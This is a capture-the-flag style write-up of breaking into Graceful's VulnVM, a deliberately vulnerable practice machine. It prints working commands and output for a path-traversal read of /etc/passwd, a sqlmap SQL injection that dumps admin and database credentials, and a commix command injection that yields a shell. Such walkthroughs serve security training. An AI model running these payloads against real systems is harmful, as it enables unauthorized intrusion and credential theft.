# Graceful’s VulnVM

## Info

I decided to look for another source rather than vulnhub for a change, and found Graceful’s VulnVM.

[https://www.gracefulsecurity.com/vulnvm/](https://www.gracefulsecurity.com/vulnvm/)

## Initial discovery

As soon as i booted the vm i was given the IP and the root credentials. I'll pretend i did not see the credentials for now.



Netdiscover confirms this IP

```
# netdiscover -r 192.168.93.0/24
 Currently scanning: Finished!   |   Screen View: Unique Hosts

 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.93.1    00:50:56:c0:00:08      1      60  VMware, Inc.
 192.168.93.2    00:50:56:fe:26:a7      1      60  VMware, Inc.
 192.168.93.173  00:0c:29:c9:5d:5c      1      60  VMware, Inc.
 192.168.93.254  00:50:56:f3:3e:55      1      60  VMware, Inc.
 ```

## Port Scan

I'm 98 % sure that there is a web server on this VM but it would just feel wrong not running a port scan.

```
# nmap -sC 192.168.93.173

Starting Nmap 7.31 ( https://nmap.org ) at 2016-11-29 08:48 GMT
Nmap scan report for 192.168.93.173
Host is up (0.00042s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 00:0C:29:C9:5D:5C (VMware)

Nmap done: 1 IP address (1 host up) scanned in 105.99 seconds
```

Just as i thought.

## Seattle Sounds (web app)


Looks like an online store

nikto time!

```
# nikto -C all -h http://192.168.93.173/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.93.173
+ Target Hostname:    192.168.93.173
+ Target Port:        80
+ Start Time:         2016-11-29 08:55:42 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache/2.4.16 (Fedora) OpenSSL/1.0.2d-fips PHP/5.6.14
+ Retrieved x-powered-by header: PHP/5.6.14
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie level created without the httponly flag
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ Uncommon header 'content-disposition' found, with contents: filename="downloads"
+ /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /admin/: Directory indexing found.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /downloads/: Directory indexing found.
+ OSVDB-3092: /downloads/: This might be interesting...
+ OSVDB-3268: /logs/: Directory indexing found.
+ OSVDB-3092: /logs/: This might be interesting...
+ Server leaks inodes via ETags, header found with file /manual/, fields: 0x2304 0x51b0c59e09040
+ OSVDB-3092: /manual/: Web server manual found.
+ /info.php: Output from the phpinfo() function was found.
+ OSVDB-3233: /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3268: /images/?pattern=/etc/*&sort=name: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ Cookie lang created without the httponly flag
+ /info.php?file=http://cirt.net/rfiinc.txt?: Output from the phpinfo() function was found.
+ OSVDB-5292: /info.php?file=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ 26164 requests: 0 error(s) and 27 item(s) reported on remote host
+ End Time:           2016-11-29 08:56:34 (GMT0) (52 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Nikto gave out a lot

Directory indexing





phpinfo



Logs directory with a log file

```
# curl http://192.168.93.173/logs/26NOV2016.txt
WARN: 18:31 26-NOV-2016 AV Engine not running!
WARN: 18:31 26-NOV-2016 AV Engine not updated in 93 days!
```

I decided to make an account



## Cross-site scripting  







## Local file include

```
# curl 'http://192.168.93.173/download.php?item=../../../../../../../../../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
systemd-timesync:x:999:997:systemd Time Synchronization:/:/sbin/nologin
systemd-network:x:998:996:systemd Network Management:/:/sbin/nologin
systemd-resolve:x:997:995:systemd Resolver:/:/sbin/nologin
systemd-bus-proxy:x:996:994:systemd Bus Proxy:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
avahi-autoipd:x:170:170:Avahi IPv4LL Stack:/var/lib/avahi-autoipd:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
</div>
<div class="products-list"></div>
```

## SQL injection

I ran `uniscan` and is looks like the login page may be vulnerable to SQL injection

```
| [+] Vul [SQL-i] http://192.168.93.173/login.php
| Post data: &usermail=123'&password=123
```

Putting this into sqlmap like so

```
# sqlmap -u 'http://192.168.93.173/login.php' --data "usermail=admin@example.com&password=123" -p usermail
```

sqlmap discovers the vuln

```
sqlmap identified the following injection point(s) with a total of 375 HTTP(s) requests:
---
Parameter: usermail (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: usermail=admin@example.com' RLIKE (SELECT (CASE WHEN (6846=6846) THEN 0x61646d696e406578616d706c652e636f6d ELSE 0x28 END))-- jKeO&password=123

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: usermail=admin@example.com' AND (SELECT 2478 FROM(SELECT COUNT(*),CONCAT(0x71706a7171,(SELECT (ELT(2478=2478,1))),0x71716b7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- xHQN&password=123

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: usermail=admin@example.com' AND SLEEP(5)-- ASKb&password=123
---
```

Enumerating this further with the `--dbs` option to see all the databases

```
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] seattle
```

Ok lets look at the tables in the seattle database by adding the `--tables` option in sqlmap

```
Database: seattle
[3 tables]
+----------------------------------------------------+
| tblBlogs                                           |
| tblMembers                                         |
| tblProducts                                        |
+----------------------------------------------------+
```

tblMembers looks like where the users are stored

```
sqlmap -u 'http://192.168.93.173/login.php' --data "usermail=admin@example.com&password=123" -p usermail --dbms=MySQL -D seattle -T tblMembers --dump
```

sqlmap shows the user for the administrator an password

```
admin@seattlesounds.net | Assasin1
```

not even hashed :)

## Admin session

After logging in as the admin we can view the logs and other administrative tasks.



Using the same vuln but with the admin creds this time shows the root account.

```
# sqlmap -u 'http://192.168.93.173/login.php' --data "usermail=admin@seattlesounds.net&password=Assasin1" -p usermail --users --passwords
```

```
database management system users password hashes:
[*] root [2]:
    password hash: *56C28F8C2F6D2BD560D6D2F04565A902BEAA3738
    password hash: *845A9ADD7E1A82B6459804066B3A45D0025897B6
    clear-text password: PASSWORD
```
So the username is `root` and the password is `PASSWORD` in clear text

## OS command injection

The log name field looks to view the file and add `.txt` extension.



To manipulate this input i'm going to use `commix` but first i need to get the session cookie for administrator



Commix time

```
# commix -u 'http://192.168.93.173/account.php?log=26NOV2016' --cookie="level=1; lang=GBP; SessionId=4cff8a69eb2824aebd478b9745ba6955"
```

```
[*] Testing the classic injection technique... [ SUCCEED ]
[+] The parameter 'log' seems injectable via (results-based) classic injection technique.
    [~] Payload: ;echo RJLWYX$((44+3))$(echo RJLWYX)RJLWYX

[?] Do you want a Pseudo-Terminal shell? [Y/n/q] > Y

Pseudo-Terminal (type '?' for available options)
commix(os_shell) > id

uid=48(apache) gid=48(apache) groups=48(apache)
```

Remote code execution !!!!

lets elevate this to a meterpreter shell



## Escalation

So using the password found from the DB for root i can `su` to root



## Final thoughts

Very fun VM and a lot of vulns that i've see in the real world too.

Thanks for the VM !
